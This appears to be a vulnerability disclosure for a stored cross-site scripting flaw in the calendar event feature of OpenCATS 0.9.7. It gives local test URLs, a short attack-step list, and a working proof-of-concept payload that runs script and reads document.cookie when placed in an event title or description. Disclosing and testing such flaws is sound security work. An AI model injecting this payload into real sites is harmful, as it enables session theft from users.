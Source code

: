 # Stored XSS in Calendar-Add-Event
Date: 2022/12/24

Exploit Author: Sakura501

Vendor Homepage: https://www.opencats.org/

Software Link: https://github.com/opencats/OpenCATS

Version: 0.9.7

Tested on: Windows11/PHP7.3.4/MySQL5.7.26

## URL&POC
`http://192.168.2.153/src/opencats/index.php?m=calendar`

`http://192.168.2.153/src/opencats/index.php?m=calendar&view=DAYVIEW&month=12&year=2022&day=25&showEvent=1`

`<img src=x onerror=alert(document.cookie);>`

## Attack Steps
1. Click the Calendat Menu.
2. Add an event, and fill the XSS payload in Title or Desc.
![image](https://user-images.githubusercontent.com/71068573/209456687-a0f913ed-2716-48aa-89b1-2ec13a3f3e13.png)

3. Click the Add Event button, then the stored XSS will be triggered. You can also click the incoming event to trigger this stored XSS.
![image](https://user-images.githubusercontent.com/71068573/209456734-5181d116-bc9d-4693-8871-cf31b33b4534.png)

![image](https://user-images.githubusercontent.com/71068573/209456721-53cb3b93-11a0-4dda-a264-f5bfbc70e0ac.png)

## Source code analysis
![image](https://user-images.githubusercontent.com/71068573/209458256-b255cb58-e766-4d9c-84c1-1feeee8ce117.png)
